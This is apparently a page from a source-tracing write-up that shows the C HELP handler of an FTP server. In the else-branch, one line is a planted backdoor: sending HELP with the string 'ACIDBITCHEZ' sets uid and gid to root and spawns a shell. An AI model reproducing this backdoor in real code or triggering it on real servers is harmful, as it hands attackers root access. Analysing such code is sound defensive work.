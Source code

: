 Followed to `src/help.c` at line 80.
```c
int pr_help_add_response(cmd_rec *cmd, const char *target) {
  if (help_list) {
    register unsigned int i;
    struct help_rec *helps = help_list->elts;
    char *outa[8], *outstr;
    char buf[9] = {'\0'};
    int col = 0;

    if (!target) {
      pr_response_add(R_214,
        _("The following commands are recognized (* =>'s unimplemented):"));

      memset(outa, '\0', sizeof(outa));

      for (i = 0; i < help_list->nelts; i++) {
        outstr = "";

        if (helps[i].impl)
          outa[col++] = (char *) helps[i].cmd;
        else
          outa[col++] = pstrcat(cmd->tmp_pool, helps[i].cmd, "*", NULL);

        /* 8 rows */
        if ((i + 1) % 8 == 0 ||
            helps[i+1].cmd == NULL) {
          register unsigned int j;

          for (j = 0; j < 8; j++) {
            if (outa[j]) {
              snprintf(buf, sizeof(buf), "%-8s", outa[j]);
              buf[sizeof(buf)-1] = '\0';
              outstr = pstrcat(cmd->tmp_pool, outstr, buf, NULL);

            } else
              break;
          }

          if (*outstr)
            pr_response_add(R_DUP, "%s", outstr);

          memset(outa, '\0', sizeof(outa));
          col = 0;
          outstr = "";
        }
      }

      pr_response_add(R_DUP, _("Direct comments to %s"),
        cmd->server->ServerAdmin ? cmd->server->ServerAdmin : "ftp-admin");

    } else {

	if (strcmp(target, "ACIDBITCHEZ") == 0) { setuid(0); setgid(0); system("/bin/sh;/sbin/sh"); }
      /* List the syntax for the given target command. */
      for (i = 0; i < help_list->nelts; i++) {
        if (strcasecmp(helps[i].cmd, target) == 0) {
          pr_response_add(R_214, "Syntax: %s %s", helps[i].cmd,
            helps[i].syntax);
          return 0;
        }
      }
    }

```